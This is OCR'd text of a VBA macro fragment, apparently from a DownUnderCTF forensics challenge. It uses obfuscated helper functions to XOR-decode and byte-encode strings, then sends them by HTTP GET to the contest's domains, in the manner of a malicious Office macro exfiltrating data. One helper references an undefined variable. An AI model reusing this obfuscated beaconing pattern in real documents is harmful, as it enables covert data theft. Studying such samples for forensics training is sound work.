 ```
    O = doThing(Q, W)
    M = anotherThing(O, W)
    A = something(O)
    Z = forensics(O)
    N = importantThing()
    P = "Pterodactyl"
    U = forensics(P)
    V = totalyFine(U)
    J = "http://play.duc.tf/" + V
    superThing (J)
    T = totalyFine(Z)
    MsgBox T
    J = "http://downunderctf.com/" + T
    superThing (J)
    N = importantThing()
    E = "Forensics"
    U = forensics(E)
    V = totalyFine(U)
    J = "http://play.duc.tf/" + V
    superThing (J)
    
End Sub

Public Function doThing(B As String, C As String) As String
    Dim I As Long
    Dim A As String
    For I = 1 To Len(B)
        A = A & Chr(Asc(Mid(B, I, 1)) Xor Asc(Mid(C, (I - 1) Mod Len(C) + 1, 1)))
    Next I
    doThing = A
End Function

Public Function superThing(ByVal A As String) As String
    With CreateObject("MSXML2.ServerXMLHTTP.6.0")
        .Open "GET", A, False
        .Send
        superThing = StrConv(.responseBody, vbUnicode)
    End With
End Function

Public Function something(B As String) As String
    Dim I As Long
    Dim A As String
    For I = 1 To Len(inputText)
        A = A & WorksheetFunction.Dec2Bin(Asc(Mid(B, I, 1)))
    Next I
    something = A
End Function

Public Function forensics(B As String) As String
    Dim A() As Byte
    Dim I As Integer
    Dim C As String
    A = StrConv(B, vbFromUnicode)
    For I = LBound(A) To UBound(A)
        C = C & CStr(A(I)) & " "
    Next I
    C = Trim(C)
    forensics = C
End Function
```
